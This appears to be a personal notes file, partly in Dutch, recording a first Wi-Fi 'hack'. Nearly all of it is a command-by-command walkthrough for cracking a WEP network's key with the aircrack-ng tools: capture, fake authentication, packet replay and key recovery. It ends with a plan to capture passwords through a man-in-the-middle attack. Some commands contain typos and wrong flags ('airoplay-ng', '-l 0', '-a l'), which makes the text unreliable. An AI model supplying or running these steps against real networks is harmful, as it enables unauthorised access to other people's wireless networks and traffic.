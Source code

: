 ##27/11/2015

Hacked WiFi for the first time! ![FOTO](http://i.imgur.com/PP0AThP.png)

#Steps/Commands

###Wireless Reconnaiccance:
**Window 1**
* iwconfig
* airmon-ng start wlan0
* airodump-ng "INTERFACE"
* Find information in table
  * ESSID
  * BSSID
  * Channel
  * Client's  MAC

###Wireless Equivalent Privacy(WEP):
**Window 1**
* airmon-ng
  * Find "INTERFACE"
* airodump-ng "INTERFACE"
* Find information in table
	
**New window 2**
* airodump-ng --bssid "BSSID" -c "Channel" -w wep_log "INTERFACE"

**New window 3** 
* ifconfig 
* Find own MAC

**New window 4**
* aireplay-ng -l 0 -a "BSSID" -h "client MAC" -e "name connection" "INTERFACE" --ignore-negative-one
* airoplay-ng -3 -b "BSSID" -h "client MAC" "INTERFACE" --ignore-negative-one

**New window 5**
* aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b "BSSID" -h "client MAC" "INTERFACE" --ignore-negative-one
* use this packet? ENTER

**Window 2** 
* Everything is fine if data is above 5000 
* Close window 2, 3, 4, 5

**First window**	
* clear
* aircrack-ng -a l -b "BSSID" -n 64 wep_log-01.cap
	
**_FIND PASSWORD!!!!_**

Next time: Script schrijven!

TODO: Ethercap opzoeken (Hoe wachtwoorden "vangen" !?) -> Man in the middle attack
